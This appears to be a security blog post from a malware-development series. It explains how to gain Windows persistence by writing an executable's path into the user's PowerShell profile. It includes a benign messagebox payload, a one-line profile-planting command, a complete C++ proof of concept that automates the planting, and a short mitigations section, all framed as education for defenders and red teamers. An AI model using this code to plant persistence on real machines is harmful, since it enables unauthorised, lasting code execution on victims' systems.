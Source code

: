 ```yaml
---
title:  "Malware development: persistence - part 11. Powershell profile. Simple C++ example."
date:   2022-09-20 03:00:00 +0300
header:
  teaser: "/assets/images/70/2022-09-20_08-06.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/70/2022-09-20_08-06.png){:class="img-responsive"}    

This post is the result of my own research into one of the interesting malware persistence trick: via powershell profile.    

### powershell profile

A PowerShell profile is a powershell script that allows system administrators and end users to configure their environment and perform specified commands when a Windows PowerShell session begins.     

The PowerShell profile script is stored in the folder `WindowsPowerShell`:    

![pers](/assets/images/70/2022-09-20_08-29.png){:class="img-responsive"}    

Let's add the following code to a to the current user's profile file, that will be performed whenever the infected user enters a powershell console:    

`Z:\2022-09-20-malware-pers-11\hack.exe`    

I will demonstrate everything with a practical example and you will understand everything.    

### practical example

Firstly, create our "malicious" file:     

```cpp
/*
hack.cpp
evil app for windows
persistence via powershell profile
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

As usually it is just "meow-meow" messagebox.    

Compile it:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/70/2022-09-20_08-07.png){:class="img-responsive"}    

And we can run at victim machine for checking correctness:    

![pers](/assets/images/70/2022-09-20_09-03.png){:class="img-responsive"}    

Then we do this simple "trick":   

```powershell
echo Z:\2022-09-20-malware-pers-11\hack.exe > "%HOMEPATH%\Documents\windowspowershell\profile.ps1"
```

And finally, run powershell:    

```powershell
powershell -executionpolicy bypass
```

![pers](/assets/images/70/2022-09-20_08-16.png){:class="img-responsive"}    

![pers](/assets/images/70/2022-09-20_08-18.png){:class="img-responsive"}    

As you can see, our malicious logic executed as expected and powershell is the parent process of our messagebox. =^..^=    

I created a simple PoC code to automate this process:    

```cpp
/*
pers.cpp
windows persistence via Powershell profile
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#include <stdio.h>
#include <strsafe.h>
#include <iostream>

int main(int argc, char* argv[]) {
  char path[MAX_PATH];
  char *homepath = getenv("USERPROFILE");
  char pspath[] = "\\Documents\\windowspowershell";
  char psprofile[] = "\\profile.ps1";
  char evil[] = "Z:\\2022-09-20-malware-pers-11\\hack.exe";
  DWORD evilLen = (DWORD)strlen(evil);

  StringCchCopy(path, MAX_PATH, homepath);
  StringCchCat(path, MAX_PATH, pspath);
  BOOL wd = CreateDirectoryA(path, NULL);
  if (wd == FALSE) {
    printf("unable to create dir: %s\n", path);
  } else {
    printf("successfully create dir: %s\n", path);
  }

  StringCchCat(path, MAX_PATH, psprofile);
  HANDLE hf = CreateFile(
    path,
    GENERIC_WRITE,
    0,
    NULL,
    CREATE_NEW,
    FILE_ATTRIBUTE_NORMAL,
    NULL
  );

  if (hf == INVALID_HANDLE_VALUE) {
    printf("unable to create file: %s\n", path);
  } else {
    printf("successfully create file: %s\n", path);
  }

  BOOL wf = WriteFile(hf, evil, evilLen, NULL, NULL);
  if (wf == FALSE) {
    printf("unable to write to file %s\n", path);
  } else {
    printf("successfully write to file evil path: %s\n", evil);
  }

  CloseHandle(hf);
  return 0;
}
```

The logic is simple, this script just create profile folder if not exists, then create profile file and update it.     

### demo

Let's go to see everything in action. Compile our PoC:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/70/2022-09-20_08-07_1.png){:class="img-responsive"}    

And run it on the victim's machine:    

```powershell
.\pers.exe
```

![pers](/assets/images/70/2022-09-20_08-09.png){:class="img-responsive"}    

![pers](/assets/images/70/2022-09-20_08-11.png){:class="img-responsive"}    

And when powershell session is started:        

![pers](/assets/images/70/2022-09-20_08-51.png){:class="img-responsive"}    

If we check it via Process Hacker:     

![pers](/assets/images/70/2022-09-20_08-53.png){:class="img-responsive"}    

`powershell.exe` is the parent process again as expected.     

As you can see everything is worked perfectly! =^..^=    

But there are the caveat. If powershell runned without execution policy bypass mode, this persistence trick not work in my case:    

![pers](/assets/images/70/2022-09-20_09-05.png){:class="img-responsive"}    

Also there are four places you can abuse the powershell profile, depending on the privileges you have:   

```powershell
$PROFILE | select *
```

![pers](/assets/images/70/2022-09-20_09-08.png){:class="img-responsive"}    

By storing arbitrary instructions in the profile script, PowerShell profiles present several chances for code execution. To avoid relying on the user to start PowerShell, you may use a scheduled job that executes PowerShell at a certain time.      

### mitigations

Enforce execution of only signed PowerShell scripts. Sign profiles to avoid them from being modified. Also you can avoid PowerShell profiles if not needed, for example via `-No-Profile` flag.    

This persistence trick is used by [Turla](https://attack.mitre.org/groups/G0010/) in the wild.    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.

[Microsoft PowerShell profiles](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_profiles?view=powershell-7.2)       
[MITRE ATT&CK. Event Triggered Execution: PowerShell Profile](https://attack.mitre.org/techniques/T1546/013/)     
[Turla](https://attack.mitre.org/groups/G0010/)     
[source code on github](https://github.com/cocomelonc/meow/tree/master/2022-09-20-malware-pers-11)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
